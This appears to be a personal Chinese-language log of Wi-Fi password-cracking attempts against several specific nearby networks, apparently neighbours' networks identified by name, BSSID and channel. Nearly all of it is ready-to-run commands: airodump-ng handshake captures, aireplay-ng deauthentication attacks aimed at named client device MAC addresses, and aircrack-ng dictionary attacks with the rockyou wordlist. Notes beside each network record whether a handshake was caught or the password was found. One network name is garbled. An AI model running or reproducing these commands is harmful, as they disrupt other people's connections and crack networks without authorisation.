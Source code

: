       🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a E4:D3:32:B4:83:BC -c 74:E5:43:06:24:D2 wlan0mon
      aireplay-ng -0 2 -a E4:D3:32:B4:83:BC -c C0:9F:05:FB:1F:A1 wlan0mon

      🔸rockyou字典中无密码: ..
      sudo aircrack-ng -a2 -b E4:D3:32:B4:83:BC -w /usr/share/wordlists/rockyou.txt /root/-15.cap


    🔵 TP-LINK_CF9B B8:F8:83:ED:CF:9B  11    👹 不在字典里....

    🔸 抓包并查看连接设备:
        airodump-ng -c 11 --bssid B8:F8:83:ED:CF:9B -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a B8:F8:83:ED:CF:9B -c 40:40:A7:B2:26:41 wlan0mon

      🔸rockyou
      sudo aircrack-ng -a2 -b B8:F8:83:ED:CF:9B -w /usr/share/wordlists/rockyou.txt /root/-21.cap


    🔵 别看了，你连不上的 30:fc:68:3d:58:92  6  👹 不在字典中

      airodump-ng -c 6 --bssid 30:fc:68:3d:58:92 -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a 30:FC:68:3D:58:92 -c 8C:18:D9:5B:A3:DB wlan0mon
    
      🔸rockyou字典
      sudo aircrack-ng -a2 -b 30:fc:68:3d:58:92 -w /usr/share/wordlists/rockyou.txt /root/-17.cap



    🔵 顿�.��.海�.�    30:FC:68:47:C0:42 6     👹 无握手包..

    airodump-ng -c 6 --bssid 30:FC:68:47:C0:42 -w ~/ wlan0mon

    🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a 30:FC:68:47:C0:42 -c 54:4E:90:C2:97:C3 wlan0mon
      aireplay-ng -0 2 -a 30:FC:68:47:C0:42 -c FC:1A:11:69:25:7E wlan0mon



    🔵 MERCURY_EFB0   E4:F3:F5:9A:EF:B0 13    👹 无握手包..
    airodump-ng -c 13 --bssid E4:F3:F5:9A:EF:B0 -w ~/ wlan0mon

    🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a E4:F3:F5:9A:EF:B0 -c F4:8B:32:09:25:91 wlan0mon
      aireplay-ng -0 2 -a E4:F3:F5:9A:EF:B0 -c 6C:5C:14:DD:5F:DB wlan0mon


    🔵 再看你也连不上 42:fc:68:3d:58:92  6  👹 无握手包...
      airodump-ng -c 6 --bssid 42:FC:68:3D:58:92 -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a 42:FC:68:3D:58:92 -c 18:21:95:E6:35:D5 wlan0mon


    🔵 ChinaNet-VTka   18:44:E6:73:CA:CF  2     👹 无连接设备
      airodump-ng -c 6 --bssid 18:44:E6:73:CA:CF -w ~/ wlan0mon


    🔵 MERCURY_CF00   E4:F3:F5:83:CF:00  CH 12   👹 无握手包...

    🔸 抓包并查看连接设备:
      airodump-ng -c 12 --bssid E4:F3:F5:83:CF:00 -w ~/ wlan0mon
